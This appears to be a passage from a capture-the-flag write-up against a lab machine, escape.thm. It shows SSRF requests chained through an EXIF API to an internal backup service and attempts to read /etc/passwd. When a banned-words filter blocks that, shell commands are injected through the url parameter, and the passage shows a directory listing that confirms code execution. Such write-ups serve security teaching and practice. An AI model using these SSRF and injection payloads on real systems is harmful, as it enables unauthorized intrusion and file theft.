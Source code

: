 ```bash
http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=/etc/passwd
```

This showed

```bash
An error occurred: HTTP Exception 400 Bad Request
                Response was:
                ---------------------------------------
                <-- 400 http://api-dev-backup:8080/exif?url=/etc/passwd
Response : Bad Request
Length : 29
Body : Request contains banned words
Headers : (2)
Content-Type : text/plain;charset=UTF-8
Content-Length : 29
```

Banned words which means there must be some filter going on

Let's try other commands

```bash
http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=echo%20%3Cfdasfa
```

```bash
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               sh: 1: cannot open fdasfa: No such file
```

Which means something is running. fdasfa should be a file name . Lets try other payloads

```bash
http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=echo%20%3Cfdasfa;ls%20-la
```

This worked

```bash
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               sh: 1: cannot open fdasfa: No such file
total 49260
drwxr-xr-x 1 root root     4096 Jan  7 17:42 .
drwxr-xr-x 1 root root     4096 Jan  7 22:14 ..
-rwxr-xr-x 1 root root 50433552 Jan  7 16:46 application
```
